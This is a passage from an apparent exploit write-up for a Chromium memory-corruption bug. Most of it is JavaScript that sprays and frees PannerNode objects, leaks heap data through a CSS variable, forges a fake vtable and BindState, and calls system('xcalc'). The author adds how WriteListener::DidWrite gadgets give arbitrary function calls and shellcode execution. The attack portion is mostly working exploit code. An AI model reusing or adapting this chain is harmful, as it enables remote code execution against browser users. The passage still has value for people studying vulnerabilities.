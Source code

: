 ```js
  div0.style.removeProperty(`--b${CSSVars[i][1]}`);
}
gc(); gc(); await sleep(1000);

for (let i = 0; i < panners.length; i++) {
  // allocating objects with vtables
  panners[i].panningModel = 'HRTF';
}

// free two panners after target CSSVariableData
panners[kSprayPannerCount - 2].panningModel = 'equalpower';
panners[kSprayPannerCount - 1].panningModel = 'equalpower';
await sleep(1000);
let hrtfLeak = rs.getPropertyValue(kTargetCSSVar).substring(0x15000 - 8);
```

And now just create the fake vtable and profit!!

```js
let ab = new ArrayBuffer(0x600);
let abFakeObj = new ArrayBuffer(0x600);
let view = new BigUint64Array(ab);
let viewFakeObj = new DataView(abFakeObj);
view[0] = swapEndian(fakePannerAddr - 0x10n);

for (let i = 0; i < viewFakeObj.byteLength; i++)
  viewFakeObj.setUint8(i, 0x4a); // "J"

const system_addr = chromeBase + kSystemLibcOffset;
// call   qword ptr [rax + 8]
viewFakeObj.setBigUint64(0x0, fakePannerAddr + 8n - 8n, true);
// viewFakeObj.setBigUint64(8, 0xdeadbeefn, true);
viewFakeObj.setBigUint64(0x8, chromeBase + kWriteListenerOffset, true);
// fake BindState addr
viewFakeObj.setBigUint64(0x10, fakePannerAddr + 0x18n, true);

// start of fake BindState
// The first int64 are the value which will passed to function address
// in second int64
viewFakeObj.setBigUint64(0x18 + 0,
// 0x636c616378 == xcalc
  0x636c616378n /* -1 because ref_count_ + 1 */ - 1n, true);
viewFakeObj.setBigUint64(0x18 + 0x8, system_addr, true);
```

In this case, I simply use a simple `system("xcalc")`. 

For a more complex exploit, we can use a sequence of more complete gadgets.
Chromium has some super powerful gadgets that allow executing shellcode 
easily. You can use `blink::FileSystemDispatcher::WriteListener::DidWrite`, 
followed by a fake `BindState`. With these two, we can call any function 
by controlling RDI, that is, the first argument of the function. 
